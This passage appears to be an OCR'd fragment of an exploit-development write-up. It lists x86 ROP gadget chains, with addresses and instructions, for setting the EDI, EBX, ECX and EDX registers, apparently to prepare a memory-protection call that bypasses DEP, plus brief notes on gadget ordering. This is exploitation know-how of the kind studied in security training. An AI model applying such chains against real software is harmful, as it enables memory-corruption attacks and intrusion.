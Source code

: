 ## EDI
```
0x10064def: pop edi; ret;
0x10040826:  ret; 
```

## EBX
```
0x10064def: pop edi; ret;
0x10040826:  ret; 
0x100430c7: pop ebx; ret;
0xFFFFFFFF
0x101260ab: inc ebx; add al, 0x50; call edi;
0x101260ab: inc ebx; add al, 0x50; call edi;
```

## ECX
As we cant just directly pop 0x40 into the register I found a chain that will increment it by 0x10.
```
0x10041e60: xor ecx, ecx; cmp eax, 1; sete cl; mov eax, ecx; ret;
0x100fd644: pop eax; ret;
0x90909090
0x10157580: add ecx, 0x10; cmp eax, 0x28; jb 0x15757b; xor eax, eax; ret;
0x100fd644: pop eax; ret;
0x90909090
0x10157580: add ecx, 0x10; cmp eax, 0x28; jb 0x15757b; xor eax, eax; ret;
0x100fd644: pop eax; ret;
0x90909090
0x10157580: add ecx, 0x10; cmp eax, 0x28; jb 0x15757b; xor eax, eax; ret;
0x100fd644: pop eax; ret;
0x90909090
0x10157580: add ecx, 0x10; cmp eax, 0x28; jb 0x15757b; xor eax, eax; ret;

```

## EDX
This was annoying to set up, but it was easy once I found the `mov edx, eax; sar edx, 8;` gadget.
```
0x10043c28: pop ecx; ret;
0x1020f040 # writeable addr
0x100fd644: pop eax; ret;
0xFFFF0FFF
0x10060ec8: inc eax; ret;
0x10142f9d: mov edx, eax; mov byte ptr [ecx + 5], al; sar edx, 8; mov byte ptr [ecx + 4], dl; ret;
0x10154f1a: sar edx, 8; mov byte ptr [eax], dl; ret;
```


# Reorder gadgets
The edx, ecx and esi chains are messy so there is a high chance they will break previously set registers.
